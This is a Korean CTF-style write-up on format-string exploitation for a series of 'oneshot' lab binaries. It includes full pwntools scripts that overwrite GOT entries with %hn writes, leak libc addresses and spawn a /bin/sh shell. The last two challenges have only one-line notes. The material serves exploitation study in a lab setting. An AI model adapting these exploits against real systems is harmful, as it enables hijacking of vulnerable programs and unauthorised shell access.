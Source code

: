 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. printf 함수의 got를 system 함수로 덮어쓰고 buf에 입력을 받을 때 "/bin/sh"를 입력하면 system("/bin/sh")를 실행할 수 있다. 이때 2번 이상 입력을 받아야 하므로 exit의 got를 main으로 덮어야 단계를 실행할 수 있을 것으로 보인다.  
payload 단계를 구성할 수 있다.
1. exit_got을 main으로 덮는다.
2. printf_got을 system으로 덮는다.
3. "/bin/sh"을 전송한다.


```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)
libc = e.libc



p.recvuntil(b"\n\n")
payload = f'%{e.symbols["main"] >> 16}c'.encode() #main_high
payload += b"%10$hn"
payload += f"%{(e.symbols['main'] & 0xffff) - (e.symbols['main'] >> 16)}c".encode() #main_low - main_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

p.send(payload)



p.recvuntil(b"\n\n")
payload = f'%{e.symbols["system"] >> 16}c'.encode() #system_high
payload += b"%10$hn"
payload += f"%{(e.symbols['system'] & 0xffff) - (e.symbols['system'] >> 16)}c".encode() #system_low - system_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["printf"] + 2)
payload += p64(e.got["printf"])
p.send(payload)


p.send(b'/bin/sh\x00')


p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다




```python

from pwn import *

p = process('./fsb_got64_2')
e = ELF('./fsb_got64_2')
libc = e.libc


main = e.symbols['main']
exit_got = e.got['exit']
printf_got = e.got['printf']

log.info('\texit@got '+hex(exit_got))
log.info('\tmain '+hex(main))


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff

log.info('### main ###')
log.info('[1] input : exit@got -> main')

# offset 6
payload = ''
payload += '%{}c'.format(main_high)
payload += '%9$hn'
payload += '%{}c'.format(main_low - main_high)
payload += '%10$hn'
payload += 'AAA'
payload += p64(exit_got + 2)
payload += p64(exit_got)

#pause()
p.send(payload)


log.info('### main ###')
log.info('[2] libc leak')

payload = ''
payload += 'leak:%77$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

log.info('\tlibc base '+ hex(libc_base))
log.info('\tprintf@got '+hex(printf_got))
log.info('\tsystem '+hex(system))



###
system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


log.info('### main ###')
log.info('[3] input : printf@got -> system')

# offset 6
payload = ''
payload += '%{}c'.format(low)
payload += '%11$hn'
payload += '%{}c'.format(middle)
payload += '%12$hn'
payload += '%{}c'.format(high)
payload += '%13$hn'
payload += 'A' * (8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)

pause()
p.send(payload)

log.info('### main ###')
log.info('[4] input : /bin/sh\x00')
p.send('/bin/sh\x00')

p.interactive()


```




## oneshot3

exit 함수가 존재하지 않으므로 다른 방식의 fsb를 해야 한다.





## oneshot4

전역변수 buf에 입력을 받는 상황이기 때문에 double-staged fsb를 해야 한다.
